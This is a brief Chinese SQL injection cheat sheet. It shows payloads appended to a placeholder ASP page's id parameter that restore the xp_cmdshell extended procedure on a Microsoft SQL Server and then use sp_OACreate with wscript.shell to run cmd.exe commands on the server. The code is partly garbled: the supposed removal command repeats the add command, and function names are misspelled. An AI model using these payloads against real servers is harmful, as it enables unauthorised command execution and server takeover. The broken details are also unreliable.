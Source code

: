 ### 若扩展存储过程不存在，恢复存储过程

语句为：;exec sp_addextendedproc xp_cmdshell,'xplog70.dll'

```
执行如下语句，网站http://www.xxx.com/后台的数据库的扩展存储过程就被恢复了：
http://www.xxx.com/xxx.asp?id=xx;exec sp_addextendedproc xp_cmdshell,'xplog70.dll'

如果要删除扩展存储过程，执行如下语句：
http://www.xxx.com/xxx.asp?id=xx;exec sp_addextendedproc xp_cmdshell
```

## 通过访问OLE对象访问OLE控件间接获得shell

注：要得到shell，要用到两个关键函数，"sp_OACreate"和"sp_OAMethod"。

```
http://www.xxx.com/xxx.asp?id=xx;DECLARE @S INT EXEC SP_OACREAT 'wscript.shell',@s exec master..SPOAMETHOD @s,'run',null,'cmd.exe/c dir C:\'
执行的结果是返回遍历服务器C盘下的所有文件，同时达到一个shell的功能，但是注意，需要是SA权限才能够执行
```

